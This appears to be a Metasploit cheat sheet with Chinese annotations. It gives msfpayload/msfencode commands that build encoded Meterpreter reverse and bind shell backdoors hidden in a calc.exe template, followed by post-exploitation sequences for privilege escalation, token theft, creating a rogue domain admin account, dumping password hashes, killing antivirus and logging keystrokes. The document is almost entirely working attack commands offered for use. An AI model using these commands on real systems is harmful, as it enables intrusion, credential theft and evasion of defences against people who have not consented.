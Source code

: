 
### MSF,Ninja，Fu
```
* msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 R | msfencode -x calc.exe -k -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe 使用calc.exe作为模板，生成经过编码的后门
* msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 R | msfencode -x calc,exe -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe 与上面差不多，只是执行的时候不依赖于生成的可执行文件，且不会有任何提示信息
* msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -o payload.exe -e x86/shikata_ga_nai -c 7 -t exe && msfcli multi/hanler PAYLOAD=windows/meterpreter/bind_tcp LPORT=443 E 生成编码后的payload并开始监听本机端口
```

### MSFvenom

* msfvenom --payload 自动生成payload


### Meterpreter Post Exploitation Commands

提权一般步骤
```
meterpreter> use priv
meterpreter> getsystem
meterpreter> ps 
meterpreter> steal_token 1784
meterpreter> shell
net user msf msf /add /DOMAIN
net group "Domain Admins" msf /add /DOMAIN
```

获取hash一般步骤

```
meterpreter> use priv
meterpreter> getsystem
meterpreter> hashdump
```

如果是在win2008系统上：
```
meterpreter> run migrate
meterpreter> run killav
meterpreter> ps 
meterpreter> migrate 1436
meterpreter> keyscan_start
meterpreter> keyscan_dump
meterpreter> keyscan_stop
```

使用Incognito提权

```
meterpreter> use incognito
meterpreter> list_tokens -u
meterpreter> use priv
meterpreter> getsystem
meterpreter> list_tokens -u
meterpreter> impersonate_token IHAZSECURITY\\Administrator
```
